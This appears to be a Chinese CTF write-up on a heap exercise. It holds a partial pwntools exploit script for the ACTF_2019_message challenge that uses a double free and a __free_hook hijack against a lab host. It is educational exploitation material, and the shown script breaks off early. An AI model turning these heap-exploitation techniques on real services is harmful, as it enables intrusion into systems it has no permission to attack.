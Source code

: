 ```yaml
---
title: 堆刷题小结
date: 2022-09-12 20:15:00 +0800
categories: [CTF, Exercise]
tags: [heap]     # TAG names should always be lowercase
---
```


#  ACTF_2019_message(doubel free + free_hook attack)

[ACTF_2019_message](/assets/binary/%E5%88%B7%E9%A2%982/ACTF_2019_message)

简单的double free到message信息储存的区域，实现任意地址写，通过show泄露函数地址

注意程序开启了full reloc，所以不能劫持got表，这里劫持__free_hook

```python
from pwn import *
from LibcSearcher import *

io = remote('192.168.135.133',12348)
libc = ELF('./libc.so.6')
elf = ELF('./ACTF_2019_message')
context.log_level = 'debug'
context.os = 'linux'
context.arch = 'amd64'

def add(leng,content):
    io.recvuntil('choice: ')
    io.sendline('1')
    io.recvuntil('message:\n')
    io.sendline(str(leng))
    io.recvuntil('message:\n')
    io.sendline(content)
def delete(index):
    io.recvuntil('choice: ')
    io.sendline('2')
    io.recvuntil('delete:\n')
    io.sendline(str(index))
def edit(index,content):
    io.recvuntil('choice: ')
    io.sendline('3')
    io.recvuntil('edit:\n')
    io.sendline(str(index))
    io.recvuntil('message:\n')
    io.send(content)
def show(index):
    io.recvuntil('choice: ')
    io.sendline('4')
    io.recvuntil('display:\n')
    io.sendline(str(index))
    io.recvuntil('message: ')

message_addr = 0x602060

'''
double free到这里的0号，由于内容为0x20，chunk的size为0x30才能通过检测，所以这里直接写入0x30
'''
add(0x30,'aaaa') # 0
add(0x20,'bbbb') # 1
add(0x20,'cccc') # 2

delete(1)
```